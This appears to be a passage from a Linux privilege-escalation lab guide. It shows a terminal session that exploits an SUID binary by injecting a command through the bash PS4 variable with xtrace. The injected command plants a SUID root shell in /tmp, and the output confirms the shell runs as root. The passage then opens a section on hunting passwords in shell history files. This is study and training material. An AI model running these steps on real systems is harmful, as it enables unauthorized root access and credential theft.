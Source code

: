 ```


```
user@debian:~/tools/privesc-scripts$ env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/usr/sbin/service apache2 start
basename /usr/sbin/service
VERSION='service ver. 0.91-ubuntu1'
basename /usr/sbin/service
USAGE='Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]'
SERVICE=
ACTION=
SERVICEDIR=/etc/init.d
OPTIONS=
'[' 2 -eq 0 ']'
cd /
'[' 2 -gt 0 ']'
case "${1}" in
'[' -z '' -a 2 -eq 1 -a apache2 = --status-all ']'
'[' 2 -eq 2 -a start = --full-restart ']'
'[' -z '' ']'
SERVICE=apache2
shift
'[' 1 -gt 0 ']'
case "${1}" in
'[' -z apache2 -a 1 -eq 1 -a start = --status-all ']'
'[' 1 -eq 2 -a '' = --full-restart ']'
'[' -z apache2 ']'
'[' -z '' ']'
ACTION=start
shift
'[' 0 -gt 0 ']'
'[' -r /etc/init/apache2.conf ']'
'[' -x /etc/init.d/apache2 ']'
exec env -i LANG= PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin TERM=dumb /etc/init.d/apache2 start
Starting web server: apache2httpd (pid 1772) already running
.
user@debian:~/tools/privesc-scripts$ /tmp/rootbash -p
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

### 7 Passwords & Keys



History file

```
cat ~/.*history | less
